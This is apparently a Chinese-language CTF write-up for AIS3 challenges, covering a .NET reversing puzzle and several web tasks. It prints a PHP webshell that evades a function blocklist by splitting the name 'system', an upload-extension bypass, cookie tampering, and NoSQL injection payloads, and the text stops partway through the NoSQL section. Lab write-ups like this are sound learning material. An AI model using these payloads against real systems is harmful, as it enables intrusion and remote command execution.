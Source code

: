 .NET, ILSpy開起來，把每個檔案丟進去可以看到一些過濾條件，照他的條件玩一下填字遊戲就好了：

```
0123456789012345678901234567890123456789012345
AIS3{          A                             }
    {D                                    G_G}
     D0T_N3T_FRAm3W0rk                  __   
                     k 15_S0_C0mPlicaT3d
AIS3{D0T_N3T_FRAm3W0rk_15_S0_C0mPlicaT3d__G_G}
```
----

# Web

## Simple File Uploader

兩個上傳filter:

1. 副檔名不准是`'php', 'php2', 'php3', 'php4', 'php5', 'php6', 'phtml', 'pht'`
2. 檔案內容不准有`system, exec, passthru, show_source, proc_open, popen, pcntl_exec, eval, assert, die, shell_exec, create_function, call _user_func, preg_replace`

繞過的方法也簡單:

1. 副檔名用`pHp`，這樣php server還是會parse
2. `<?php (sy.(st).em)($_GET['cmd']);`

於是就有了webshell, 執行`/rUn_M3_t0_9et_fL4g`得到flag: `FLAG:  AIS3{H3yyyyyyyy_U_g0t_mi٩(ˊᗜˋ*)و}`

## Poking Bear

進去網頁可以看到每個按鈕的url都是`chals1.ais3.org:8987/bear/[number]`，並且按照數字大小排列，但是目標的Secret bear卻沒有數字。於是我們可以開Burp，從`bear/350`暴力一路戳到`bear/777`，就可以找到Secret bear 在 `bear/499`。

進去之後點Poke的話，它會說"You can't poke SECRET BEAR since you are not "bear poker"!"。因此回到Burp，然後把他的cookie 改成 "secret bear"再戳一次就有flag了。

Flag: `AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`

## The Best Login UI

一進去題目看到一個相當實用的登入界面，看到這麼多酷酷的特殊字元，想必這絕對不會是SQLI吧？錯了，檔案裡面有mongoDB的東西，這是NoSQL。那總之就先來試試看一些基本的東西確定是不是NoSQL:

```
username[$ne]=aaa&password[$ne]=meowmeow  -> success
```

還真的是NoSQL。那麼接下來試密碼長度。

```
username[$ne]=toto&password[$regex]=.{41} -> success
username[$ne]=toto&password[$regex]=.{42} -> fail
```
